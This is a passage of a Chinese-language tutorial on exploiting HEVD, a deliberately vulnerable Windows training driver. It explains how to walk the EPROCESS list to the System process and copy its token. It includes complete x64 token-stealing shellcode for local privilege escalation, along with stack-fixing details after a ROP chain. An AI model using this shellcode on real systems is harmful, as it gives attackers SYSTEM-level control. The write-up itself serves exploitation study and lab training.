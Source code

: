 2.  比较当前`ActiveProcessLinks`值`-8`的内存地址是否为`UniqueProcessId`
    
3.  否：更换当前结构体为下一个
    
4.  是：从`ActiveProcessLinks-0x70`的位置得到`Token`地址
    
5.  解析 Token，赋值给**当前进程**（Windows 会自动解析为 exp 的程序（从页表映射等来看确实应该如此））
    

仔细逆向会发现

[![](assets/1706090578-fb4f1b42a19c8d936f2263e8f0b3e8eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132529-a7f5d840-b8e6-1.png)

那么在没有任何栈变动的情况下`add rsp, 0x28`就能恢复栈，但是我们只有了 ROP，ROP 链中存在两个`ret`和一个`pop`，抬栈了 0x18，所以在 shellcode 中只需要`add rsp, 0x10`

[![](assets/1706090578-7d2959704d0246c44c95325d30d48288.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132547-b2a92972-b8e6-1.png)

同时 HEVD 的`NT_STATUS`使用`RAX`检测处理是否成功，所以要`xor rax,rax`

```bash
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax+0x188]
    mov rax, [rax+0xb8]     ;rax = 当前EPROCESS
    mov r9, rax             ;r9  = 当前EPROCESS
    mov rax, [rax+0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]          ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax-0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax             ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]          ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS
    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    add rsp, 0x10
    retn
```
